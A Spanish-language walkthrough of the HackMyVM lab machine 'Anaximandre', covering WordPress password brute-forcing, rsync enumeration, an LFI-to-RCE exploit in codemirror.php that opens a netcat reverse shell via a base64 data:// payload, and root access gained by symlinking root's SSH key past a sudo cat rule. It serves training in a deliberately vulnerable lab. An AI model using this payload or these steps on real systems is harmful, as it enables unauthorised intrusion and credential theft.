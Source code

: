```yaml
---
layout: post
title: Anaximandre - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/anaximandre/anaximandre_1.png#center)

## Reconocimiento

Tras un escaneo inicial con "nmap", veo los siguientes puertos abiertos

```
$ nmap -p- 192.168.1.26    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-09 06:34 EST
Nmap scan report for 192.168.1.26
Host is up (0.00018s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
873/tcp open  rsync

Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
```

Voy a comenzar enumerando el puerto 80.

### 80 (http)

Varios links en la página apuntan al dominio "anaximandre.hmv" por lo que lo añado a /etc/hosts. Además se puede ver que la página está hecha con wordpress por lo que ejecuto "wpscan" para buscar vulnerabilidades, usuarios y contraseñas.

```
$ wpscan --url "http://192.168.1.26"  --api-token [api-token] -P /usr/share/wordlists/rockyou.txt --detection-mode aggressive --plugins-detection aggressive -t 10
```

Al ejecutarlo descubro al usuario "webmaster" cuya contraseña es "mickey".

Al loguearme en Wordpress veo dos comentarios recientes del admin del servidor, en uno de los dos hay un mensaje confidencial "Yn89m1RFBJ" (Lo guardo para mas tarde).

No encuentro nada más por lo que ahora enumero el puerto 873.

### 873 (rsync)

En este puerto se está ejecutando un servidor "rsync". Enumero carpetas públicas:

```
$ rsync  rsync://192.168.1.26/
    share_rsync     Journal
```

Y despues veo los archivos que contiene la carpeta:

```
$ rsync  rsync://192.168.1.26/share_rsync
drwxr-xr-x          4,096 2022/11/26 10:23:01 .
-rw-r-----         67,719 2022/11/26 10:19:33 access.log.cpt
-rw-r-----          4,206 2022/11/26 10:19:53 auth.log.cpt
-rw-r-----         45,772 2022/11/26 10:19:53 daemon.log.cpt
-rw-r--r--        229,920 2022/11/26 10:19:53 dpkg.log.cpt
-rw-r-----          4,593 2022/11/26 10:19:33 error.log.cpt
-rw-r-----         90,768 2022/11/26 10:19:53 kern.log.cpt
```

Los voy descargando uno a uno de la siguiente manera:

```
$ rsync  rsync://192.168.1.26/share_rsync/access.log.cpt .
```

Los archivos descargados tienen extension ".cpt". Estos archivos se pueden descomprimir con "ccrypt" y cuando nos pide contraseña uso la que encontré antes en el comentario de wordpress.

```
$ ccrypt -d access.log.cpt
Enter decryption key: Yn89m1RFBJ
```

Buscando entre los diferentes archivos log desencriptados encuentro varias cositas interesantes.

### auth.log

Usuario: chaz

```
Nov 26 16:16:07 debian useradd[16501]: new user: name=chaz, UID=1001, GID=1001, home=/home/chaz, shell=/bin/bash, from=/dev/pts/0
```

### access.log

Subdominio: lovegeografia.anaximandre.hmv
Posible LFI:

```
192.168.0.29 - - [26/Nov/2022:16:15:38 +0100] "GET /exemplos/codemirror.php?&pagina=../../../../../../../../../../../../../../../../../etc/passwd HTTP/1.1" 200 982 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```

Voy a comenzar con el posible LFI

## Explotación

Buscando un poco en google encuentro la vulnerabilidad CVE-2022-32409 que afecta a codemirror.php con la que se puede conseguir ejecucion de código en el servidor.

```
$ echo -n "<?php system('nc -e /bin/bash 192.168.1.22 1234'); ?>" | base64
    PD9waHAgc3lzdGVtKCduYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC4xLjIyIDEyMzQnKTsgPz4=
```

Ejecuto un listener en el puerto 1234 de mi máquina y navego a la siguiente url para ejecutar la shell inversa.

```
http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=data://text/plain;base64,PD9waHAgc3lzdGVtKCduYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC4xLjIyIDEyMzQnKTsgPz4=
```

```
$ nc -lvnp 1234
    listening on [any] 1234 ...
    connect to [192.168.1.22] from (UNKNOWN) [192.168.1.26] 60032
    whoami
    www-data
```

Y con esto ya estoy dentro.

## Escalado de privilegios

Como el servidor tiene ejecutandose rsync compruebo en sus archivos de configuracion alguna credencial guardada.
```
$ cat /etc/rsyncd.auth
    chaz:alanamorrechazado
```

Me conecto mediante ssh para tener una terminal más cómoda

```
ssh chaz@<ip>
```
Una vez conectado como chaz compruebo si puede ejecutar algún comando con sudo:

```
$ chaz@anaximandre:~$ sudo -l
[...]
User chaz may run the following commands on anaximandre:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/chaz/*
```

Teniendo privilegios para ejecutar cat en los archivos del home de chaz podemos leer cualquier archivo del sistema mediante "soft links". En este caso leo el id_rsa de root.

```
chaz@anaximandre:~$ ln -s /root/.ssh/id_rsa .
chaz@anaximandre:~$ ls
id_rsa  user.txt
chaz@anaximandre:~$ sudo cat /home/chaz/*
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAymVIJCfeVhY3wXQyz8tZrt+cHyKuDTTXN+NpIbM7EakMulk97ZHu
jNWDOMzF+f1jicidrEZkTjqCMLtwF4wpPNskUCAC7XjglhxifQWOUQXyRvkSPT690q6o+6
OfesMAs2CG+tfhhsfR2yqpC6v3UTbUdIcBUR3lp+bng6IlV6An5iWTBfI4Rd7VkWP9Cu7m
gfe6Gp8u6PE7R0lO4mzd5Sf8Tx06r1x/AVP9d2xl4NgvRmFM1bwGWVCN1NKX8e83dyHQoG
JCPFs76aNWsLfL2MaK1DLrrbRrytic+8/TNvJSqHVthX4CUMsa4tU0V9fi8phq2nG+Ny9N
qZVieX7ai1VY6M95vAI6Jser62YnAjftITMIIInEt7t0GAx7obwUtOH0Cg9wp7ttK6ou6r
99x2oI33gv0L8YhJhBOwWm+bj1SmWv7CFvlR04kDoMUxTtttwFryXPabHSMD29weuE7srn
lHYbinlTpSsMu1zkAsHdPPfICgF1P9KTVSU1Ay9FAAAFkBtj3CkbY9wpAAAAB3NzaC1yc2
EAAAGBAMplSCQn[...]USFdcz4eJ/EaePaNtfzo6K5BYJmt2i
9XZer3Q3fowTWYzStuVaEifKSmCrMR/9yD9x3gZUMhiGrfcPr+Z8pjHzF4ER0UUaWyOQM6
ouiMN0IAj/JVviNlbQFdpoie0DM8qovXqgD5NNwdRvlCW57IWYAY9OjK931qr6+rGHM9NB
NPPUSGcYjOnbUQ1jYIBeYpFGKq1GL7oxcXQXVbqm84EBFx1Tz4Rnc2+ox/qOc43B04fUYp
CXt4kL70hA2hMVKtcuHXK178vxXT3/wo4X4MSmDQ0mYY1fGOEiDcmEWagk0PUIiFWlQPEp
YwM/dHiOUj5ZslqAhEM62aQUfE5X2oeh/6wugrbscktzWl+ghb73pYRQa/xHWvWm+5Dmek
LKoj8zp21xX+MBbwhFnakqCySrn6FflrsjU4g7Mw6kkwfH1tHEeiSZ/tbQgGwOqJpkoQAA
AMBfAnDFmytdTka5I4Rfd5yEob5sIsAKW5QE4dcdRgh/p03Z6uuwes+wzp6HcMaFx+7S1K
q3n156W1igBzcZb3qIJSmUWJ8msvGCIBx8wORfFO62C6MxemwbQHpRMJLVtdUmPzNoakJN
FK7UmvuH+bbnnbAEYZiP6b3LFU/52aOSw1ZhiaAsybrCyx4lXmp2gC3ypoCpKZIfMkH3LX
rIpWReurThX2FOi102ik52D1w6YpeWY5lK/4XZhYP/VOYG2G8AAADBAPt3kWvCWu/6ia+g
wtTQL+3qZpoHeaoRm50JWMook00W99XniNBoYJjry219u8KTZD8mjwNMuEjmbdwSFCpMrc
wqnCJlJYYknKJ33+PSaCXw7nAO7Nm8X9C/lrD/H9nTPlFnIkP/7d8wn53jQSgweNdhpXxB
p122C3/yXW2G+HjJt9WQc1IBdZ9WRsz1Qj6znE94X83HQawAoEfwqctmH/Y17M1Vl4KafX
qD/2qvGZuSUq4yk0H+BVfWYsMRkBBPrQAAAMEAzgtEMU65MwI+JrGK1QpJnSKRzJvOcnce
xPsiaSeWu1/8hGdyP2zjBNf6YSSRijwvQaoXieTadK7DIb9JAAKwzzEvRFD8krElkbwnFQ
Y1aew2FaQABKsxthX/fY7IJgcYuyWxcKEGOCpU51MrvRVcYF/irDJqzoJpnOiMcspPwBm0
gX2Wvo5gZGNuBg7sgrt3liqXKQzM0xheKX/Tvh0WkhGH8Y5cWO9eYeGGnM9SnIUkzm9Gv4
7ic/80uLk8snD5AAAAFHJvb3RAYW5heGltYW5kcmUuaG12AQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```

Teniendo ya su id_rsa, conseguir root es simple
```
$ ssh root@192.168.1.26 -i id_rsa 

root@anaximandre:~# :)
```

Muchas gracias a **Cromiphi** por esta máquina.

